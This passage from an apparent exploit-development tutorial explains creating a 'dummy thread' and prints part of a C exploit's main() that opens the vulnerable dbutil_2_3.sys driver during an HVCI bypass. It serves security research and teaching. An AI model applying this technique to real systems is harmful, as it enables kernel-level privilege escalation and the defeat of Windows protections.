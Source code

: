 You'll see that our `createdummyThread` function returns a handle to the "dummy thread". Notice that the `LPTHREAD_START_ROUTINE` for the thread goes to `randomFunction`, which we also can define. This thread will never actually execute this function via its entry point, so we will just supply a simple function which does "nothing".

<img src="{{ site.url }}{{ site.baseurl }}/images/HVCI21.png" alt="">

We then can call `createdummyThread` within `main()` to execute the call. This will create our "dummy thread".

```c
/**
 * @brief Exploit entry point.
 * @param Void.
 * @return Success (0) or failure (1).
 */
int main(void)
{
	//
	// Invoke getHandle() to get a handle to dbutil_2_3.sys
	//
	HANDLE driverHandle = getHandle();

	//
	// Error handling
	//
	if (driverHandle == (HANDLE)-1)
	{
		//
		// Print update
		//
		printf("[-] Error! Couldn't get a handle to dbutil_2_3.sys. Error: 0x%lx", GetLastError());

		//
		// Bail out
		//
		goto exit;
	}

	//
	// Print update
	//
	printf("[+] Obtained a handle to dbutil_2_3.sys! HANDLE value: %p\n", driverHandle);

	//
	// Invoke getthreadHandle() to create our "dummy thread"
	//
	HANDLE getthreadHandle = createdummyThread();

	//
	// Error handling
	//
	if (getthreadHandle == (HANDLE)-1)
	{
		//
		// Print update
		//
		printf("[-] Error! Couldn't create the \"dummy thread\". Error: 0x%lx\n", GetLastError());

		//
		// Bail out
		//
		goto exit;
	}
```